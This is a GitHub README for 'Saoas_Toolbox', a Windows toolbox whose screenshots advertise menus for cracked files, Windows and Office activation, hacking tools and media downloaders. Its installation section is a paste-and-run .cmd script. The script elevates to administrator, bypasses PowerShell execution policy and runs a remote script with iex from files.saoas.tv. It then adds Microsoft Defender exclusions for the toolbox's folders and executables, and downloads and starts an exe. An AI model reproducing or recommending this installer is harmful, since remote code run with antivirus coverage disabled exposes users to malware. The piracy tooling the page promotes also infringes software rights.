 # Saoas_Toolbox
 - **Installation:**
   - Copy the following Code into an Text Document and save as .cmd File, then Start the file.
   - or Download [THIS FILE](https://github.com/SaoasBlubb/Saoas_Toolbox/releases/download/latest/Saoas_Toolbox.cmd) and Start the file.
```
@echo off & setlocal
net session >NUL 2>&1 && goto :ELEVATED
set ELEVATE_CMDLINE=cd /d "%~dp0" ^& "%~f0" %*
powershell.exe -noprofile -c Start-Process -Verb RunAs cmd.exe \"/c $env:ELEVATE_CMDLINE\"
exit /b %ERRORLEVEL%
:ELEVATED

set "psCommand=Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://files.saoas.tv/path.ps1'))"

mkdir "C:\Saoas"

powershell -NoLogo -Sta -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command "& {%psCommand%}"
powershell -Command Add-MpPreference -ExclusionProcess "Saoas_Toolbox.exe" -Force
powershell -Command Add-MpPreference -ExclusionProcess "Installer.exe" -Force
powershell -Command Add-MpPreference -ExclusionProcess "Multi_Downloader.exe" -Force
powershell -Command Add-MpPreference -ExclusionPath "%USERPROFILE%\Desktop\Saoas_Tools" -Force
powershell -Command Add-MpPreference -ExclusionPath "C:\Saoas" -Force

cd "C:\Saoas"
powershell Invoke-WebRequest -Uri "https://eternallybored.org/misc/wget/1.21.4/64/wget.exe" -OutFile "wget.exe"

cd /d "%USERPROFILE%\Desktop"
powershell Invoke-WebRequest -Uri "https://files.saoas.tv/Toolbox/Saoas_Toolbox.exe" -OutFile "Saoas_Toolbox.exe"

start "" "%USERPROFILE%\Desktop\Saoas_Toolbox.exe" 

```

#####

# TOOLBOX PICTURES:

![PAcket_Managers_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e4dd290c-0853-47aa-9269-42878cd199d8)
![Cracked_Files_Main_Menu_3of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/bc08218b-c0b8-499c-95ab-5d840495f47b)
![Cracked_Files_Main_Menu_2of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/3b22f508-e915-4e02-aae8-e1c41a6e0221)
![Cracked_Files_Main_Menu_1of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c7ea0603-dad6-4b3d-be20-b63ebc97e14f)
![Office_Install_Activation_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/52afce7d-89ce-4b4a-a632-934fedcb3c56)
![Windows_Install_Activation_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c1ab1ab5-f8c8-41a8-b415-7b937fd8eab9)
![Windows_Tweaks_Menu_3of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/788077a0-f5eb-416c-b001-4276efbd0add)
![Windows_Tweaks_Menu_2of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e0b14c7c-8276-42fc-8d63-3e744cf3c1e9)
![Windows_Tweaks_Menu_1of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/748ee5bb-546a-4dd5-97c7-741d182d80ef)
![Windows_Context_Tweaks_Menu_4of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/1555e886-3a02-461c-b23a-53ec00a88374)
![Windows_Context_Tweaks_Menu_3of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e277a2f9-0e21-4ddf-958c-4792f08d82df)
![Windows_Context_Tweaks_Menu_2of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/92e58e4c-c74c-4f8c-8472-4b3bc3123a13)
![Windows_Context_Tweaks_Menu_1of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ce7353f3-3e36-4227-80d4-c0890d32ae8b)
![Windows_Tweaks_Main_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/8767eeca-1ec9-4792-9e10-f90ca370ade3)
![Internet_Browsers_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/44f7c0d2-2a27-4f9d-8a35-4c8f577649f7)
![Hacking_Tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/055404e6-9911-4fc4-af6b-9025ddad232b)
![Programs_Menu_2of2_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/6eb46d6b-eaf0-472b-a018-354eeaa40806)
![Programs_Menu_1of2_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/01cf5411-e444-4158-b0c4-672fe9b9b2e3)
![Programs_and_Hacking_tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/7ee83d03-7b56-4232-b271-2b3b0f132947)
![Runtimes_Frameworks_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/15dbc0b4-67f8-4b40-bec9-151c1b4f5c0b)
![Saoas_Tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/9f8b618e-0b44-4e1e-824b-1f53b3fe3cda)
![Toolbox_Main_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/06704b2a-1807-42c2-926e-1fc8c6b697ad)


# MULTIDOWNLOADER PICTURES:

![Website_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/70b56c69-4474-47a8-a19c-91a09977322d)
![SoundCloud_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/449c221d-06bb-41f3-9ea0-4c4d80361fdf)
![Spotify_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/abc92b92-ac9d-436f-a19d-74a64e22e28e)
![YouTube_Video_Download_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a683921a-2403-4a60-afa9-d95e6d8dc67a)
![YouTube_Audio_Download_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/88dcdea1-7916-4882-b283-7e4ac516ac3f)
![YouTube_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/1fc38cca-9fb9-4bad-8e56-324f0fb9d3e2)
![Multi_Downloader_MAin_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/68e84a22-da58-4a9a-b7d4-259c3205b72d)
![Multi_Downloader_Update_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/b9a7783d-2eaf-4463-9faf-f163ae49e2a7)
